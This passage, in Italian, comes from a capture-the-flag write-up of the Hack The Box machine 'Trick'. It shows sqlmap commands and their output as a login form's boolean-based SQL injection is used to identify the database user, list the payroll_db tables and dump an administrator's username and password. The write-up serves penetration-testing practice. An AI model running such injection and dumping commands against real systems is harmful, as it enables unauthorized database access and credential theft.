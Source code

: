 e l'utente corrente del DB:

```┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch --technique B --threads 10 --current-user
        __
...<snip>...
current user: 'remo@localhost'
[10:06:51] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:06:51 /2023-07-21/

```

Sto usando i thread per accelerare il processo. I thread sono sicuri con boolean, ma non basati sul tempo.

Esistono due database, sebbene uno sia quello predefinito per MySQL:

Enumeriamo le tabelle del database payroll_db

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch --technique B --threads 10 -D payroll_db --tables

...<snip>...
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+

[10:11:27] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:11:27 /2023-07-21/
```

Abbiamo 11 tabelle, Scaricherò la tabella degli utenti:

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap  -r login.req --batch --technique B --threads 10 -D payroll_db -T users --dump

...<snip>...
Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+--------+---------+---------+------------+-----------------------+
| id | doctor_id | name          | type   | address | contact | username   | password              |
+----+-----------+---------------+--------+---------+---------+------------+-----------------------+
| 1  | 0         | Administrator | 1      | <blank> | <blank> | Enemigosss | SuperGucciRainbowCake |
+----+-----------+---------------+--------+---------+---------+------------+-----------------------+
```